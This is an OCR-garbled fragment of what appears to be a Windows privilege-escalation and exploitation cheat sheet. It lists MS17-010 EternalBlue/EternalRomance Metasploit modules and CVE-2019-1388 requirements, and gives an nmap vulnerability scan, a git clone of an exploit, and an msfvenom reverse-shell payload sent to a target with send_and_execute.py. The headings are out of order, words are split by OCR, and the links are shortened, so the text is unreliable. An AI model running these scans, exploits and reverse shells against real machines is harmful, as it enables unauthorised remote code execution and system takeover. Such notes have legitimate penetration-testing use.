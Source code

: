**5. Enjoy a shell as NT AUTHORITY\SYSTEM**

#### WerMgr

**Exploit Privileged Directory Creation Bugs with Windows Error Reporting**

**Metasploit modules to exploit EternalRomance/EternalSynergy/EternalChampion.**

**If you can't use Metasploit and only want a reverse shell.**

#### CVE-2019-1388

**Exploit : https://tinyurl.com/26vn372z**

**Requirement:**

**Windows 7**

**Windows 10 LTSC 10240**

**Failing on :**

**LT S C 2 0 1 9**

**1709**

**1803**

**Detailed information about the vulnerability : https://tinyurl.com/svj5y3v**

### References

```
nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms17– 010 <ip_netblock>
```

```
auxiliary/
admin/smb/ms17_010_command MS17- 010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
auxiliary/
scanner/smb/smb_ms17_010 MS17- 010 SMB RCE Detection
exploit/
windows/smb/ms17_010_eternalblue MS17- 010 EternalBlue SMB Remote Windows Kernel Pool Corruption
exploit/
windows/smb/ms17_010_eternalblue_win8 MS17- 010 EternalBlue SMB Remote Windows Kernel Pool Corruption
exploit/
windows/smb/ms17_010_psexec MS17- 010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
```

```
git clone https://tinyurl.com/ 2 ccy84d8
```

```
# generate a simple reverse shell to use
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT= 443 EXITFUNC=thread -f exe -a x86 --platform windows -o revshell.exe
python2 send_and_execute.py 10.0.0.1 revshell.exe
```
